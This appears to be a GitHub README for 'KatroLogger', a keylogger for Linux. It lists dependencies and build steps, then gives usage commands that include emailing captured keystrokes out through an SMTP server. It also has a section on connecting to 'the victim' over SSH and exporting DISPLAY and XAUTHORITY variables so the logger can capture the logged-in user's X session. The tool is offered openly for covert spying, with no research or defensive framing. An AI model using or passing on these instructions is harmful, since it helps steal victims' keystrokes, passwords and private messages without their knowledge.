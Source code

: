 # KatroLogger
KeyLogger for Linux Systems.

- **Features**
  - Runs on GUI systems or CLI
  - Sending data by email

- **Dependencies**
- [Xlib](https://www.x.org/wiki/)
>X Window System protocol client library
```Shell:
# Debian-based:
apt install -y libx11-dev

# RPM-Based:
dnf install -y libX11-devel 
```
- [libquickmail](https://sourceforge.net/projects/libquickmail/)
```
wget https://ufpr.dl.sourceforge.net/project/libquickmail/libquickmail-0.1.29.tar.xz
tar -xvf libquickmail-0.1.29.tar.xz
./autogen.sh && ./configure && make && make install
```

- **Compiling**
```Shell
./configure
make
make install
```
- **Usage**
```Shell
katrologger --output /path/file
```
- Send data by e-mail
```Shell
katrologger --smtps-url smtp.gmail.com --port 465 --mail-from <address> --mail-rcpt <address> --pass <password> --smtp-file /path/keyscan --time 10
```
- **Fixing problems accessing via SSH**
> when connecting to the victim remotely via ssh it will be necessary to export environment variables to run the keylogger.

For hosts with xorg running:
> identifying logged in user
```Shell
user=$(who | grep "(:0)" | awk '{print $1}')
echo $user
```
> Exporting variables
```Shell
export DISPLAY=:0.0
export XAUTHORITY=/home/$user/.Xauthority
```
- **Uninstall**
```Shell
make uninstall
```
